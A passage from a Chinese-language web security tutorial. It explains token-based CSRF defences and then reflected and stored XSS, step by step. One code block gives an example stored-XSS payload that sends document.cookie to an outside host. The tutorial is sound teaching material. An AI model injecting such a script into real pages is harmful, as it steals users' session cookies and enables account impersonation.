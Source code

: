 2. **请求中添加 token 并验证**

token 就是服务端颁发给客户端的一长串字符串。

> csrf 依赖于浏览器该问链接时自动对应网站的 cookie 带上，所以 token 不放 cookie 里，可以作为 query 参数每次携带，在处理请求前进行 token 验证即可。

在基于没有其他漏洞会泄漏本次会话的 token 的设想下 ，黑客是无法获取用户的 token，**所以一次会话可以使用同一个 token。**

- 优点：安全程度比 Referer 的方式要高；
- 缺点：实现方式上稍微复杂（GET 需要拼接链接，POST 需要使用 JS 添加参数）；需要保证 token 存储的安全性。

3. **在 HTTP 头中自定义属性并验证**

这种方法也是使用 token 并进行验证，和上一种方法不同的是，这里并不是把 token 以参数的形式置于 HTTP 请求之中，而是把它放到 HTTP 头中自定义的属性里。

通过 XMLHttpRequest 这个类，可以一次性给所有该类请求加上 csrftoken 这个 HTTP 头属性，并把 token 值放入其中。

- 优点：使用方式较简单，而且 token 不容易泄露
- 缺点：使用场合较少，在 Ajax 方法才可以使用，局限性较大。

<br/>

## <span id="t5">XSS 攻击</span>

XSS 是跨站脚本攻击(Cross Site Scripting)，恶意攻击者往 Web 页面里插入恶意 Script 代码，当用户浏览该页之时，嵌入其中 Web 里面的 Script 代码会被执行，从而达到恶意攻击用户的目的。

### 攻击类型

#### 反射型 XSS

> 反射性 xss 一般指攻击者通过特定的方式来诱惑受害者去访问一个包含恶意代码的 URL。当受害者点击恶意链接 url 的时候，恶意代码会直接在受害者的主机上的浏览器执行。

比如：攻击者通过电子邮件等方式将包含注入脚本的恶意链接发送给受害者，当受害者点击该链接的时候，注入脚本被传输到目标服务器上，然后服务器将注入脚本 "反射"到受害者的浏览器上，从而浏览器就执行了该脚本。

![img](https://shiva.oss-cn-hangzhou.aliyuncs.com/picture-master/images/dev-security-xss-1.png)

因此反射型 XSS 的攻击步骤如下：

1. 攻击者在 url 后面的参数中加入恶意攻击代码。
2. 当用户打开带有恶意代码的 URL 的时候，网站服务端将恶意代码从 URL 中取出，拼接在 html 中并且返回给浏览器端。
3. 用户浏览器接收到响应后执行解析，其中的恶意代码也会被执行到。
4. 攻击者通过恶意代码来窃取到用户数据并发送到攻击者的网站。攻击者会获取到比如 cookie 等信息，然后使用该信息来冒充合法用户的行为，调用目标网站接口执行攻击等操作。

#### 存储型 XSS

> 主要是将恶意代码上传或存储到服务器中，下次只要受害者浏览包含此恶意代码的页面就会执行恶意代码。

![img](https://shiva.oss-cn-hangzhou.aliyuncs.com/picture-master/images/dev-security-xss-3.png)

```javascript
<script>window.open("cookies.shouji.com?param="+document.cookie)</script>
```

例如，我在一个博客中嵌入如下 js，那么浏览博客的用户打开后，将会执行。

1. 攻击者将恶意代码提交到目标网站数据库中。
2. 用户打开目标网站时，网站服务器将恶意代码从数据库中取出，然后拼接到 html 中返回给浏览器中。
3. 用户浏览器接收到响应后解析执行，那么其中的恶意代码也会被执行。
4. 那么恶意代码执行后，就能获取到用户数据，比如上面的 cookie 等信息，那么把该 cookie 发送到攻击者网站中，那么攻击者拿到该 cookie 然后会冒充该用户的行为，调用目标网站接口等违法操作。
